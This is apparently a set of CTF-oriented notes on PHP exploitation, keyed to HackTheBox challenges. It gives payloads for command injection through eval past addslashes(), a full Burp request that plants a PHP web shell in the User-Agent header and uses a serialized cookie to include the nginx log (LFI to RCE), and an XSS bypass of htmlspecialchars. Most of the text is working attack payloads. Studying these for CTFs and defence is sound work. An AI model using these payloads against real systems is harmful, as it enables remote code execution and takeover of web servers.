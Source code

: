 # addslashes()
This function escapes single & double quotes.
```php
# Assuming that the variable is passed to eval
${system($_GET[1])}&1=whoami;
# If it's not passed to eval
${eval($_GET[1])}&1=system($_GET[2]);&2=whoami;
```
- Challenge: https://app.hackthebox.com/challenges/lovetok
> **References:** 
> https://www.programmersought.com/article/30723400042/

# include() 
Only generates a warning, i.e., E_WARNING, and continue the execution of the script.

**Case**:  From LFI to log poisoning
- Burpsuite request example:
```txt
# Cookie Serialization exploit
# O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}

GET /?c=cat+/flag_qlvM8 HTTP/1.1
Host: 178.128.163.152:30522
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```
- Challenge: https://app.hackthebox.com/challenges/224

> **References:**
> https://www.hackingarticles.in/apache-log-poisoning-through-lfi/
# htmlentities() & htmlspecialchars
It doesn't encode single quotes by default
```html
`'onerror='alert("XSS")''`
```
> **Reference**:
> https://github.com/X-Vector/XSS_Bypass/blob/master/htmlspecialchars%20-%20htmlentities/README.md